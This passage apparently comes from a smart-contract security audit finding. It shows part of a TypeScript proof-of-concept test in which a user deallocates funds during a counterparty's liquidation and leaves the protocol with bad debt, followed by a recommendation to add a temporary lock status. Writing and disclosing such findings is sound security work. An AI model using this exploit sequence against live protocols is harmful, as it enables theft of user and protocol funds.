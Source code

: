 ```ts

  for (const pos of openPositions) {
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

  // deallocate max amount (upnl = -500 + 1000 = +500 for the user)
  // since we're in a profit, even after deallocating everything available we still have funds available, but can't deallocate more,
  // because allocated amount is already 0, and as it's unsigned, it can't go lower. This can be further exploited using another bug,
  // but that's out of this bug context
  await context.accountFacet.connect(this.user.signer).deallocate(decimal(1009), await getDummySingleUpnlSig(decimal(500)));

  // finish liquidation of user controlled hedger, forcing user in a big bad debt
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([3], [5]),
  )

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );

  for (const pos of openPositions) {
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

});
```

## Tool used

Manual Review

## Recommendation

There are different ways to fix this vulnerability and it depends on what the team is willing to do. I'd say the safest fix will be to introduce some `temporarily locked` status for the partyA, and when any partyB is liquidated, connected partyA is put in this temporary status, which is lifted after liquidation finishes, so that the user can't do anything while in this status. However, this is a lot of work and possible room for more bugs.
